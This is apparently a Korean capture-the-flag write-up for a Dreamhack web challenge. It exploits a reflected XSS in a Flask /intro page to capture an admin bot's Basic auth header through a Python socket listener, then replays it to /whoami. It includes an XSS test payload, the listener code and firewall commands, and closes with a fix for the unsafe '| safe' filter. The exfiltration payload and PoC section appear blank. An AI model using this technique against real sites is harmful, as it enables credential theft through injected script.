


# Are you admin

구분: 공통 문제
난이도: Easy
문제 링크: https://dreamhack.io/wargame/challenges/1922
분야: Web
상태: 작성 완료
생성일: 2026년 7월 28일 오후 8:21
수정일: 2026년 8월 31일 오후 9:20

# 1. 문제 요약

- /intro 엔드포인트에 사용자가 조작 가능한 쿼리 스트링으로 name과 detail이 html로 렌더링 되어 xss가 가능하다.
- /report 엔드포인트를 통해 봇이 /intro페이지를 방문해 encoded_user_info를 얻을 수 있다.
- 얻은 encoded_user_info를 가지고 /whoami에 admin인증을 통과해 flag를 얻을 수 있다.

---

# 2. 문제 분석

- 웹 서버

```markdown
Flask -/ (intro로 redirect)
      -/intro (name과 detail을 쿼리 스트링으로 받아 render_template <-xss)
      -/report (name과 detail을 받아 access_page함수 실행 <- 봇intro 방문)
      -/whoami(admin 로그인시 flag제출)
```

- access_page(봇)

```python
def access_page(name, detail): 
    try:
        user_info = f'admin:{PASSWORD}'
        encoded_user_info = b64encode(user_info.encode()).decode()
        driver.execute_cdp_cmd(
            'Network.setExtraHTTPHeaders',
            {'headers': {'Authorization': f'Basic {encoded_user_info}'}}
        )
        driver.get(f"http://127.0.0.1:8000/")
        driver.get(f"http://127.0.0.1:8000/intro?name={quote(name)}&detail={quote(detail)}")
    return True
    
# Authorization:encoded_user_info 헤더를 추가하고 /, /intro 방문
```

---

# 3. 풀이과정

- xss확인→ 봇으로 xss를 통한 웹 요청→ flag확인

## 3.1 XSS 확인(/intro)

/intro?name=<script>alert("xss")</script>&detail=as



## 3.2 봇으로 xss

1. 파이썬 소켓 프로그래밍으로 웹 요청 수신 대기
- 소켓 코드
    
    ```python
    import socket
    
    with socket.socket() as server:
        server.bind(("0.0.0.0", 8888))
        server.listen(1)
    
        print("8888 포트에서 요청 대기 중...")
    
        client, address = server.accept()
    
        with client:
            log = client.recv(8192).decode(errors="replace")
    
            client.sendall(
                b"HTTP/1.1 200 OK\r\n"
                b"Content-Length: 2\r\n"
                b"Connection: close\r\n"
                b"\r\n"
                b"OK"
            )
        with open("request.log", "a", encoding="utf-8") as file:
            file.write(log)
            
    print("수신 완료")
    
    '''
    New-NetFirewallRule `
      -DisplayName "Python Receiver 8888" `
      -Direction Inbound `
      -Protocol TCP `
      -LocalPort 8888 `
      -Action Allow
    '''
    
    '''
    Remove-NetFirewallRule -DisplayName "Python Receiver 8888"
    '''
    ```
    
1. /report에서 xss를 통한 웹 요청

```python
/abc?name=&detail=x
```

1. 수신 확인


## 3.3 /whoami

- burp를 통한 Authorization 헤더 삽입


---

# 4. 보안조치

```python
<p>Hello, my name is <strong>{{ name | safe }}</strong>.</p>
```

현재 코드에 | safe는 개발자가 해당 값을 신뢰할 수 있다고 표시하여 Jinja의 자동 이스케이프를 우회하는 필터이다. |safe를 사용하지 않거나 name처럼 동적으로 사용자가 입력이 처리되는 부분에는 사용하지 않는다.

---

# 5. PoC 코드



# 6. 기록

처음에는 WSL에서 nc를 실행해 외부 요청을 수신하려고 했다. 외부에서 Windows로 들어온 요청을 WSL까지 전달하려면 포트 포워딩 등의 추가 설정이 필요했다. 따라서 구성을 단순화하기 위해 Windows에서 Python 소켓 서버를 실행하여 요청을 직접 수신했다.